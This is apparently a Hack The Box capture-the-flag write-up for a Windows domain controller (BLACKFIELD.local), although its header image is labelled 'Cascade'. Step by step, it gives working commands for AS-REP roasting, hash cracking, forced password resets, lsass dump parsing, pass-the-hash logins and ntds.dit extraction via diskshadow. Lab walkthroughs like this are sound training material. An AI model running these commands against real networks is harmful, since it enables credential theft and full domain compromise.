 ![Cascade](https://labs.hackthebox.com/storage/avatars/7c69c876f496cd729a077277757d219d.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [aas](https://app.hackthebox.com/users/6259)        | [Hack The Box](https://www.hackthebox.com/)     | Hard           | Windows   |

---








- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.
	
	```python
	nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.10.192 -oG scan
	/opt/extractports scan
	nmap -p53,88,135,139,389,445,593,3268,5985,49677 -sCV -Pn 10.10.10.192 -oN ports
	nmap -p53,88,135,    389,445,593,3268,5985 -sCV -Pn 10.10.10.192 -oN ports
	```

	![image](https://github.com/user-attachments/assets/e88142a7-b3df-40db-89d4-26cff2d05c67)

- I found the domain `BLACKFIELD.local` and I add it to the file in the `hosts` file
- As I see port 53 open, I list mail servers and find another domain I can add to the `hosts` file

	```python
	dig @10.10.10.192 BLACKFIELD.local mx
	```

	![image](https://github.com/user-attachments/assets/6a47af27-c241-4792-baa3-ff56c17c3a56)

- Having the SMB ports open, I start to enumerate them using null credentials and manage to see several shares but find nothing relevant.

	```python
	netexec smb 10.10.10.192 -u "Guest" -p "" --shares
	```
	
	![image](https://github.com/user-attachments/assets/695079ae-127b-4443-bda9-c1b6ded2ae14)

- Using brute force I list system users and manage to find a couple of users.

	```python
	/opt/kerbrute userenum -d BLACKFIELD.local --dc 10.10.10.192  /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt 
	```

	![image](https://github.com/user-attachments/assets/46fe6f4b-b8e0-4953-aeb9-0eb8242c559e)

 - After validating that the users exist with kerbrute, we can make an ASREPRoast Attack (TGT) and find a user that does not have “Dont require preauth” set and we can get its hash.
	
	```python
	impacket-GetNPUsers BLACKFIELD.local/ -no-pass -usersfile usernames
	```
	
	![image](https://github.com/user-attachments/assets/9c3a869b-21f3-4c59-9d90-64b2f6916e3b)

- By brute force we tried to get the clear text password from the hash and succeeded in obtaining it.
	
	```python
	hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt 
	```
	
	![image](https://github.com/user-attachments/assets/a101bbbf-1699-41d2-bdd2-c91697951cdc)

- Using the credentials found for the user support we can list the resources shared by SMB and observe that he has access to more directories than if we use null credentials.

	```python
	netexec smb 10.10.10.192 -u support -p '#0XXXXXXXXXt' --shares
	```
	
	![image](https://github.com/user-attachments/assets/dc94be31-2d65-4387-9b01-fba26f486fa2)

- Before going into the SMB shares I decide to list the users and groups of the system to get a more global version of the system I am dealing with.
- My attention is drawn to the user SVC_backup that belongs both to the group “Remote Management Users”, with which I could connect to the system, and to the group “Backup Operators” with which I could make a copy of the system to extract the user hashes.
	
	```python
	ldapdomaindump -u 'BLACKFIELD.local\support' -p "#0XXXXXXXXXt" 10.10.10.192
	```
	
	![image](https://github.com/user-attachments/assets/f6eff121-05c2-47d4-8433-7359f0fc3808)
	
	![image](https://github.com/user-attachments/assets/da44a3cc-ec66-4777-8246-9884e67305e1)

- When consulting the shared resources I find many directories so I mount them in my machine to be able to consult them with greater facility.
	
	```python
	mkdir /mnt/smbmounted
	mount -t cifs //10.10.10.192/profiles$ /mnt/smbmounted -o username=support,password=#0XXXXXXXXXt,domain=BLACKFIELD.local,rw
	```

- When I look inside all the folders I can't find anything.
- I decide to continue enumerating the system in order to observe potential avenues for escalating privileges or making a lateral move with bloodhound.
- Starting from the user I have credentials, support, I have ForceChangePassword permissions on the user Audir2020. This allows me to change the user's password without needing to know his current password.
	
	```python
	bloodhound-python -c all -u 'support' -p "#0XXXXXXXXXt" -ns 10.10.10.192 -d BLACKFIELD.local
	```
	
	![image](https://github.com/user-attachments/assets/2970aa29-32a0-436b-ba44-beb2280b28d4)

- With the help of this [resource](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword) I manage to change the password for the user Audit2020. When consulting with these credentials which shared resources I have read permissions I find the forensic folder.

	```python
	net rpc password "AUDIT2020" -U "BLACKFIELD.local"/"support"%"#0XXXXXXXXXt" -S "dc01.BLACKFIELD.local"
		#Pepe1234!
	netexec smb 10.10.10.192 -u AUDIT2020 -p Pepe1234! --shares
	```
	
	![image](https://github.com/user-attachments/assets/0eb3c675-e9c2-4311-a4f7-71e14f1e7f21)

- When I consult the resource I find multiple files but I am struck by one inside the memory_analysis folder called lsass.zip

  ```python
  smbclient -U 'AUDIT2020' //10.10.10.192/forensic
  ```

-  I download the file, extract it and use pypykatz to query its contents and I manage to find the NT hash of the Administrator user (which is not valid) and that of the svc_backup user.

	```python
	 unzip lsass.zip
	 pypykatz lsa minidump lsass.DMP > lsass_pypykatz
	```
	
	![image](https://github.com/user-attachments/assets/5de257cf-a793-4f50-bfe9-43fc0795e72f)

- I try to do Pass-the-Hash (PtH) with the user svc_backup and I get access to the system and I can read the first flag.
	
	```python
	netexec winrm 10.10.10.192 -u svc_backup -H 96xxxxxxxxxxxxxxxxxxxxxxxxxxx00d:96xxxxxxxxxxxxxxxxxxxxxxxxxxx00d
	evil-winrm -i 10.10.10.192 -u svc_backup -p 96xxxxxxxxxxxxxxxxxxxxxxxxxxx00d:96xxxxxxxxxxxxxxxxxxxxxxxxxxx00d
	```
	
	![image](https://github.com/user-attachments/assets/8167a6ca-0138-43f9-9dda-6b068429ff69)

- As we have seen previously, the user svc_backup belongs to the group “Backup Operators” and when we see what permissions it has, SeBackupPrivilege and SeRestorePrivilege catch our attention.
- Thanks to these permissions we can try to make a copy of the system to extract the NT hashes of the users.

	![image](https://github.com/user-attachments/assets/e36e59c2-ed44-4491-8526-127b10049c6c)

- As a first attempt I make a copy of the sam and system files to use them later with secretsdump to obtain the hashes. When validating these hashes they are not correct so I have to look for other ways to make the copy.
	
	```python
	reg save hklm\sam .\sam.backup
	reg save hklm\system .\system.backup
	impacket-secretsdump -sam sam.backup -system system.backup LOCAL
	```
	
	![image](https://github.com/user-attachments/assets/66f5a740-2f30-4c99-8198-e7549abae2c8)

- I try to make a copy of the ntds file but it does not allow it at first.
- When looking for different ways to make a copy of this file I find a [blog](https://pentestlab.blog/tag/diskshadow/) that shows how using DiskShadow we can make the copy.
- We start by uploading a file with the following content.

	```python
	#it is important to leave a blank space at the end of each line.
	set context persistent nowriters 
	add volume c: alias someAlias 
	create 
	expose %someAlias% z:
	```

- Once the file is uploaded we use diskshadow pointing to the file.
	
	```python
	diskshadow.exe /s C:\Users\svc_backup\Documents\diskshadow.txt
	```

- This will create a replica of the system in z:\ and on this we can use robocopy to make a copy of the ntds file.
	
	```python
	robocopy /b z:\Windows\NTDS\ . ntds.dit
	```

- We download the copy of the file ntds.dit and together with the copy of system that we had done before, we get the system hashes
	
	```python
	impacket-secretsdump -ntds ntds.dit -system system.backup -hashes lmhash:nthash LOCAL
	```
	
	![image](https://github.com/user-attachments/assets/b3c3b20d-08cc-4eed-ad5c-2a3473e5ec75)
		
- I try to do Pass-the-Hash (PtH) with the user Administrator and I get access to the system and I can read the second flag.
	
	```python
	evil-winrm -i 10.10.10.192 -u Administrator -H 18XXXXXXXXXXXXXXXXXXXXXXXXXXee 
	```
	
	![image](https://github.com/user-attachments/assets/ba8c8d16-735b-48c5-bdaf-3983c518fdd0)
